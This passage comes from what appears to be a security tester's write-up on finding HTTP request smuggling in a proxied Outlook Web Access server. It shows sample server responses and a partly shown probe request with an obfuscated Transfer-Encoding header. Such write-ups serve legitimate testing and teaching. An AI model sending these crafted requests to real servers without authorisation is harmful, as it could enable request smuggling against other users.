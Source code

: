 A regular webserver would generate a "421 Misdirected Request" response. An example is included below.

Response: 

{% highlightcode http %}
    HTTP/1.1 421 Misdirected Request
    Server: Apache
    Content-Length: 322
    Content-Type: text/html; charset=iso-8859-1
    
    -- snip --
    <p>The client needs a new connection for this request as the requested host name does not match the Server Name Indication (SNI) in use for this connection.</p>
    -- snip -- 
{% endhighlightcode %}

However, when we ran this against `owa.customer.com`, the server returned the following response, a `302 Moved Temporarily`. Back then, I personally thought this redirect was typical behaviour for an HTTP proxy. However, later it sank in to me that it should have been a `200 OK` or `203 Non-Authoritative Information` with the actual response body, as stated in RFC7230 ({% customlink "https://tools.ietf.org/html/rfc7230" %}).

Response:

{% highlightcode http %}
    HTTP/1.1 302 Moved Temporarily
    Location: https://actually-request-this-site.com/owa/
    Server: server1
    X-FEServer: US-EXCH-008
    -- snip --
{% endhighlightcode %}

Something that does however reveal that a proxy in use, is the `Server` header, with `server1` as value. This is a non-default value for Microsoft IIS servers. By default, the value is `Microsoft-IIS/8.5` (or another version). This indicates that, most likely, a proxy altered the response.

Now that we have the indication that `owa.customer.com` is proxied, we can continue with checking if it is vulnerable to HRS.

#### Identifying vulnerable proxy setups

With James Kettle's research in mind, we set out to investigate whether this setup is potentially vulnerable to HRS. To identify if `owa.customer.com` is vulnerable to HRS, we sent the following request.

{% highlightcode http %}
    POST /owa/auth/logon.aspx?2whS=929722944 HTTP/1.1
    REPLACE-WITH-SPACETransfer-Encoding: chunked
    Connection: keep-alive
    Host: owa.customer.com
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: nl,en-US;q=0.7,en;q=0.3
    Accept-Encoding: gzip, deflate
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 124
